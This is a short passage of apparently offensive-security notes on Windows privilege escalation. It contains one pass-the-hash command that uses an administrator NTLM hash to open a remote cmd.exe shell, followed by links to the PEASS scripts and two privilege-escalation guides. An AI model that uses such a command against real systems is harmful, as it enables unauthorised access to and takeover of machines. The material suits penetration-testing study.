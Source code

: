 ```
pth-winexe -U administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //IP cmd.exe
```

## Privilege Escalation Awesome Scripts SUITE

[GitHub - carlospolop/privilege-escalation-awesome-scripts-suite: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

## Additional reading

FuzzySecurity | Windows Privilege Escalation Fundamentals

[FuzzySecurity | Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html)[FuzzySecurity | Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html)

Windows Privilege Escalation Guide

[Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
